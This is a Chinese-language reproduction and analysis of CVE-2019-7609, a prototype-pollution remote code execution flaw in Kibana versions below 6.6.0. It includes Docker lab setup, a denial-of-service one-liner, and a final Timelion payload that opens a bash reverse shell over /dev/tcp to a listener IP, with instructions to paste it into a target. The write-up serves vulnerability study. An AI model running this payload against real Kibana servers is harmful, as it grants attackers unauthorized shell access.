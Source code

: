 # （CVE-2019-7609）kibana < 6.6.0 未授权远程代码命令执行

> 原文：[http://book.iwonder.run/0day/kibana/1.html](http://book.iwonder.run/0day/kibana/1.html)

## 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是 Elastic Stack 成员之一，设计用于和 Elasticsearch 协作。

## 二、漏洞影响

kibana < 6.6.0

## 三、复现过程

#### 环境搭建

```
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana 
```

这样启动的 kibana 没法调试，可以自己改改镜像，在 node 启动命令里加个 inspect 参数：

```
docker ps -a --no-trunc  # 找到启动脚本

在 node 启动命令后加上--inspect=0.0.0.0:9229

docker commit kibana kibana-debug  # 保存修改后的镜像
docker rm -f kibana
docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的 kibana 容器 
```

kibana 控制台：[http://127.0.0.1:5601/](http://127.0.0.1:5601/) inspect 调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

![image](img/8c7c3cb9d85c802ee17207d2f0435047.png)

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个 cookie 就可以导致拒绝服务：

```
.es(*).props(label.__proto__.cookie="aaa") 
```

![image](img/72c74e3f6a587580120228df1daeaa31.png)

要复原的话可以在 inspect 调试器里删掉原型对象的 cookie 属性：

![image](img/15f0d3a6685058fae1d7fecc3b79e9aa.png)

DOS 很好实现，怎么搞成 RCE 呢？根据经验，容易想到一些常见情形，如：

```
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs 模版引擎中的动态函数调用 
```

作者并没有找到明显的代码执行点，但是在瞎点到 canvas 的时候，他发现控制台暴了很多错误（这是 inpector 的输出，也就是说如果启 docker 的时候加了-d 的话，可能就错过这个 RCE 了...）。

![image](img/d75e154de7b08c6847865d35357c2a69.png)

作者据此得出结论：kibana 在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，

![image](img/fd3500192eb5bb4da8edf31230fc866c.png)

首先调用 normalizeSpawnArguments.apply()处理参数，

![image](img/03aca3ca6171e8db8965ef847d78f6d1.png)

跟进，

![image](img/ce3c4eefe71ddde3411d71e5f1e1d62e.png)

这里实际是在处理 child_process.spawn(command[, args][, options])的第三个参数 options。

![image](img/c5b1223b0a1998caeb29e54c6386a9db.png)

这里面的有些参数是 undefined 的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个 env 参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错："Starting inspector on 0.0.0.0:9229 failed: address already in use"。 这句话透露出的是：此时正在创建一个 node 命令进程，并且使用了--inpect:0.0.0.0:9229 参数。 这下目标就清晰了，我们能控制的 node 的环境变量。

在 node 中，有一个 NODE_OPTIONS 变量，

![image](img/1bc987f867f590d28907571f689a2344.png)

通过这个变量，可以覆盖 node 进程的参数。 也就是说，现在我们能控制 node 进程的参数了。这就很有用了，比如--eval 参数是可以直接执行代码的。

![image](img/c9a352531ca1e3838d3be0d2a173deeb.png)

但是，NODE_OPTIONS 似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval 这种是用不了的。

不过作者找到了另一个参数--require，

![image](img/a2c9ec7f5f021f9393512dd888d3af35.png)

这个有点像 php 里的 auto_prepend_file，预加载一个文件。

![image](img/ae7390c325c97ddf19cd96d4c03d873e.png)

现在我们可以看成有一个文件包含的洞了，怎么 RCE 呢？ 通常，我们都会上传一个文件再包含，或者去包含 web 服务器日志/SSH 日志。 作者这里利用的方法也十分巧妙，Linux 下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ 这个文件，直接包含这个文件不就好了。

![image](img/d116ad49d6e259bcf216a1d09d65b51f.png)

最后 payload 如下：

> 将 POC 里的反链 IP 地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞

